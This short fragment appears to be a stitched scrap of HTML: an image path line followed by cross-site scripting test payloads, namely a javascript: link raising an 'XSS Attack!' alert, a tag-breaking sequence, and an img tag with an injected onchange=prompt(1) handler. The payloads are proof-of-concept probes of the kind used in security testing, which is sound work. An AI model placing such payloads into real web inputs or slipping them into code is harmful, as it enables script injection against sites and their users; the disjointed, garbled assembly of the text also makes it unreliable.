 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<!---></div></article></p><img src='https://in.pinterest.com/pin/932245191599758496 onchange=prompt(1)></img>
